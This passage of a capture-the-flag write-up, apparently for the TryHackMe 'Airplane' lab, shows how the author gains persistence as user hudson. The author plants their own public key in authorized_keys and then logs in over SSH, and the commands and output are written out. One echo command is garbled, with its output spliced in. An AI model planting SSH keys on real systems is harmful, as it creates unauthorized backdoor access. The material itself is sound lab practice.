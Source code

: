 # Lateral Movement - Privilege Escalation 

## Permanence setting

We have access to the .ssh folder so let's just echo our key there, first we create a folder :

```bash
hudson@airplane:/home/hudson/.ssh$ touch authorized_keys
hudson@airplane:/home/hudson/.ssh$ ls
authorized_keys
```

Now we copy our public key on our machine :

```bash
┌──(hax㉿HaxonKali)-[~/.ssh]
└─$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali
```

And we echo in the folder :

```bash
hudson@airplane:/home/hudson/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@hudson@airplane:/home/hudson/.ssh$ ls
authorized_keys
hudson@airplane:/home/hudson/.ssh$ cat authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali
```

## SSH Hudson

Now we can access on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with our private key :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ ssh -i /home/hax/.ssh/id_ed25519 hudson@airplane.thm  
The authenticity of host 'airplane.thm (10.10.12.222)' can't be established.
ED25519 key fingerprint is SHA256:9q23c/CHFWNnqEDK/eQFZ2BSYcCGfCW3+A9hX0ubHj0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'airplane.thm' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Your Hardware Enablement Stack (HWE) is supported until April 2025.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

hudson@airplane:~$ 

```
